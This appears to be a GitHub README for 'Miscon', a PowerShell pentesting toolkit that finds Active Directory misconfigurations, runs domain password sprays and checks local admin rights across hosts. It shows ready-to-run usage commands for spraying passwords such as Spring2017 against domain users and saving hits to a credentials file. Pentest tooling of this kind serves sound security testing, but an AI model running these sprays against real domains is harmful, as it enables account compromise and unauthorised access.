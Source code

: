 <img src="guidance.png" alt="miscon" width="200" height="200"/>

# Miscon
- find Active Directory misconfigurations (quickwins for Pentesting)
- Domain password spray
- Local Admin check

## Functions
### Find-Misconfigurations
Find misconfigurations in an active directory.

```PowerShell
-Domain = defines the domain
-Type = defines the type (default = light | other types: extended, quickwins)
```

```PowerShell
Find-Misconfigurations -Domain "test.local"
Find-Misconfigurations -Domain "test.local" -Type "light"
Find-Misconfigurations -Domain "test.local" -Type "extended"
Find-Misconfigurations -Domain "test.local" -Type "quickwins"
```

### DomainPasswordSpray
All Credits goes to dafthack, copied his DomainPasswordSpray PowerShell script, because it is awesome.
Perform domain password spray attacks.

```PowerShell
# single password spray
Invoke-DomainPasswordSpray -Password Spring2017

# uses userlist and passwordlist, creating outfile
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

# using userlist and one password, creating outfile
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -Password Summer2017 -OutFile sprayed-creds.txt

# creating userlist out of the domain
Get-DomainUserList -Domain domainname -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```

### Invoke-CheckLocalAdmin
Function to check a user against a list of hosts, if the user has local admin privileges.

```PowerShell
Invoke-CheckLocalAdmin -user john -hosts C:\Users\user1\Downloads\hosts.txt
```
